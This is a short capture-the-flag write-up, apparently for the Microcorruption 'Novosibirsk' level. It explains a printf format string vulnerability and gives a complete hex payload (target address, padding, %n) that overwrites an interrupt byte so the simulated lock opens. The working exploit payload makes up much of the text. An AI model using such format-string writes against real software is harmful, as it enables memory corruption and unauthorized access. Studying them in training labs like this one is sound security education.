

# Level 13: Novosibirsk

## Observations

* Printf again, except this time the first argument is the user input (a simple `%x` returns `7825`)
* No main ret.
* Call to `conditional_unlock_door` (HSM-2)

## Format String Again

The obvious idea here is to change the 7E interrupt to a 7F interrupt. Let's try the to exploit the Format String to do that. 

So let's build our input:
* the address we want to write on (here `c844` (little endian)). 
* Then enough padding to print 7f (127) bytes including the 4 bytes of the address we're writing on.
* The format %n

`c8446161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161256e`

This works.